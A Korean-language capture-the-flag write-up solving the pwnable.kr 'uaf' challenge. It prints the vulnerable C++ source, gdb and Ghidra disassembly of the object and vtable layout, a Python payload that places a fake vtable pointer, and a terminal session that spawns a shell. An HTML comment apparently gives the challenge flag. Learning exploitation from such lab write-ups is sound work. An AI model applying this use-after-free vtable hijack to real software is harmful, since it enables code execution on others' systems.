 ```yaml
---
title: "pwnable.kr - Toddler's bottle #15 uaf"
date: 2020-03-08
categories:
  - Information Security
tags:
  - pwnable.kr
---
```


[pwnable.kr][pwnable.kr] Toddler's bottle의 #15 uaf 문제 풀이

```c
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
	}
	virtual void introduce(){
		Human::introduce();
		cout << "I am a nice guy!" << endl;
	}
};

class Woman: public Human{
public:
	Woman(string name, int age){
		this->name = name;
		this->age = age;
	}
	virtual void introduce(){
		Human::introduce();
		cout << "I am a cute girl!" << endl;
	}
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;
}
```

uaf에 대충만 알고 있었기 때문에 이해하고 푸는데 시간이 좀 걸렸다...

gdb로 uaf를 열어 main을 disas해 보면 이런 부분이 있음
~~~
0x0000000000400ef7 <+51>:    lea    -0x50(%rbp),%r12
0x0000000000400efb <+55>:    mov    $0x18,%edi
0x0000000000400f00 <+60>:    callq  0x400d90 <_Znwm@plt>
~~~

이곳을 ghidra로 분석해 보면 이런 것임
~~~
local_40 = (long *)operator.new(0x18);
~~~

즉 여기가 new 할때 필요로 하는 버퍼 크기라는 것을 알 수 있다

여기서 사용하는 c++ class instance는 virtual function이 있으니 vptr이 있을 것이고, 또한 uaf.cpp를 보면 int age, string name을 선언하고 있다. 그렇다면 이것들의 배치는 이런식이다

s   : vptr (8 byte pointer)
s+8 : int age
s+16: string name (8 byte pointer)

사실 난 s+8이 아니라 s+4에 int age가 있고 string class instance가 그냥 local variable로 있을거라고 생각했는데 실제로 gdb로 해당 부분을 살펴보면 저런 식이었다.

~~~
(gdb) x/10gx 0x130cc50
0x130cc50:      0x0000000000401570      0x0000000000000019
0x130cc60:      0x000000000130cc38      0x0000000000000031
~~~

vptr에 해당하는 부분을 열어보면 이렇게 생겼다

~~~
(gdb) x/10x 0x0000000000401570
0x401570 <_ZTV3Man+16>: 0x000000000040117a      0x00000000004012d2
0x401580 <_ZTV5Human>:  0x0000000000000000      0x00000000004015f0
0x401590 <_ZTV5Human+16>:       0x000000000040117a      0x0000000000401192
0x4015a0 <_ZTS5Woman>:  0x00006e616d6f5735      0x0000000000000000
0x4015b0 <_ZTI5Woman>:  0x0000000000602390      0x00000000004015a0
~~~
~~~
(gdb) disas 0x040117a
Dump of assembler code for function _ZN5Human10give_shellEv:
   0x000000000040117a <+0>:     push   %rbp
   0x000000000040117b <+1>:     mov    %rsp,%rbp
   0x000000000040117e <+4>:     sub    $0x10,%rsp
   0x0000000000401182 <+8>:     mov    %rdi,-0x8(%rbp)
   0x0000000000401186 <+12>:    mov    $0x4014a8,%edi
   0x000000000040118b <+17>:    callq  0x400cc0 <system@plt>
   0x0000000000401190 <+22>:    leaveq
   0x0000000000401191 <+23>:    retq
End of assembler dump.
(gdb) disas 0x4012d2
Dump of assembler code for function _ZN3Man9introduceEv:
   0x00000000004012d2 <+0>:     push   %rbp
   0x00000000004012d3 <+1>:     mov    %rsp,%rbp
   0x00000000004012d6 <+4>:     sub    $0x10,%rsp
   0x00000000004012da <+8>:     mov    %rdi,-0x8(%rbp)
   0x00000000004012de <+12>:    mov    -0x8(%rbp),%rax
   0x00000000004012e2 <+16>:    mov    %rax,%rdi
   0x00000000004012e5 <+19>:    callq  0x401192 <_ZN5Human9introduceEv>
   0x00000000004012ea <+24>:    mov    $0x4014cd,%esi
   0x00000000004012ef <+29>:    mov    $0x602260,%edi
   0x00000000004012f4 <+34>:    callq  0x400cf0 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x00000000004012f9 <+39>:    mov    $0x400d60,%esi
   0x00000000004012fe <+44>:    mov    %rax,%rdi
   0x0000000000401301 <+47>:    callq  0x400d50 <_ZNSolsEPFRSoS_E@plt>
   0x0000000000401306 <+52>:    leaveq
   0x0000000000401307 <+53>:    retq
End of assembler dump.
~~~

uaf.cpp에서 m->introduce() 하는 부분이 저 0x4012d2 일 것이다.
우리는 0x4012d2대신 0x040117a를 부르고 싶다

uaf.cpp에서 case1에서 m->introduce()를 부르는 곳을 disas해보면 이런식이다

~~~
=> 0x0000000000400fcd <+265>:   mov    -0x38(%rbp),%rax
   0x0000000000400fd1 <+269>:   mov    (%rax),%rax
   0x0000000000400fd4 <+272>:   add    $0x8,%rax
   0x0000000000400fd8 <+276>:   mov    (%rax),%rdx
   0x0000000000400fdb <+279>:   mov    -0x38(%rbp),%rax
   0x0000000000400fdf <+283>:   mov    %rax,%rdi
   0x0000000000400fe2 <+286>:   callq  *%rdx
~~~

여기에서 `add $0x8,%rax -> mov (%rax),%rdx -> callq  *%rdx` 하는게 실행의 수순이다

m,w는 0x18씩 두번 allocate했으니까

우리는 일단 저걸 free로 free해주고
0x18씩 두번 allocate, 그리고 vtable부분에 0x401570 대신 0x401570-0x8을 넣어두고, 그럼 add 0x8한게 0x401570이 될 것이고, 이걸 dereference하면 나오는게 0x40117a가 될 것이다

~~~
# uafinput 용 input 만들기
>>> oF = open('uafinput','wb')
>>> oF.write("\x68\x15\x40\x00\x00\x00\x00\x00"*3)
>>> oF.close()
>>> exit()
~~~

~~~
실행
uaf@pwnable:~$ ./uaf 24 /tmp/uafinput
1. use
2. after
3. free
3  //일단 둘다 free
1. use
2. after
3. free
2  //한번 allocate
your data is allocated
1. use
2. after
3. free
2  //또한번 allocate
your data is allocated
1. use
2. after
3. free
1  //m->introduce() 부르기. shell 실행 됨
$ cat flag
<tag output>
$
~~~

ㅋ

[pwnable.kr]: https://pwnable.kr

<!-- yay_f1ag_aft3r_pwning -->